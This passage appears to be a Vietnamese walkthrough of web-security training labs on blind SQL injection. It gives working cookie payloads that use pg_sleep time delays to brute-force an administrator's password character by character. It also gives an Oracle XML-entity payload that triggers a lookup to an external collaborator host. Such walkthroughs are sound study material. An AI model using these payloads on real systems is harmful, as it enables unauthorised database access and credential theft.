 ![image](https://user-images.githubusercontent.com/103978452/201889390-0037c0b0-8e52-4253-872d-66e074efeb18.png)

Thực hiện tương tự với `substr(password,2,1)`, `substr(password,3,1)`, ... đến `substr(password,20,1)`, cuối cùng ta thu được password="f4l51zsvc29fylpb93sa".

Sử dụng thông tin đã có để đăng nhập, kết quả thành công.

# 13. Blind SQL injection with time delays
Thay đổi cookie TrackingId thành `89d7JFSK1gQf8Kja'%3bSELECT pg_sleep(10)--`, response bị delay 10s.

![image](https://user-images.githubusercontent.com/103978452/201924259-1c1de137-30e6-440e-9c73-ac9e2a575efc.png)

# 14. Blind SQL injection with time delays and information retrieval
Thêm `'%3bSELECT pg_sleep(10)--` vào sau cookie TrackingId, kết quả bị delay 10s. Như vậy website có lỗi SQLi.

Thêm `'%3bSELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE 'a' END--` vào sau TrackingId, ta thấy bị delay 10s. Nhưng khi thay đổi `1=1` thành `1=2` thì không bị delay. Như vậy ta sẽ dùng lệnh SELECT CASE WHEN để exploit

Bruteforce độ dài password: Thêm `'%3bSELECT CASE WHEN length(password)=10 THEN pg_sleep(5) ELSE 'a' END FROM users WHERE username='administrator'--` vào sau TrackingId rồi tiến hành bruteforce, ta thấy chỉ với length=20 thì thời gian nhận response lên tới 5 giây. Như vậy độ dài password là 20.

![image](https://user-images.githubusercontent.com/103978452/201925671-f7c85e19-0f97-4bb0-b4e8-d321e055003c.png)

Bruteforce password: Thêm `'%3bSELECT CASE WHEN substr(password,1,1)='a' THEN pg_sleep(8) ELSE 'a' END FROM users WHERE username='administrator'--` vào sau TrackingId, ta thấy chỉ với ký tự 'a' thì response trả về lên tới 8 giây. Như vậy password bắt đầu với 'a'.

![image](https://user-images.githubusercontent.com/103978452/201926618-606202b4-bc13-4df9-8f83-6c3f6f5a2551.png)

Tiến hành tương tự với các ký tự từ 2 đến 20, ta thu được password=afwrv9geoqal4yozoxw0. Sử dụng username và password có được để đăng nhập, kết quả thành công.

# 15. Blind SQL injection with out-of-band interaction
(Lưu ý: các đoạn code bên dưới trong thực tế đều được URL encode)

Thử thực hiện DNS lookup với trường hợp database là Oracle:

Thay đổi cookie TrackingId thành:
```
TrackingId=abc';SELECT EXTRACTVALUE(xmltype('
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://gk4lihowe69pkkgl7fluaewn0e65zto.oastify.com/"> %remote;]>
'),'/l') FROM dual--
```

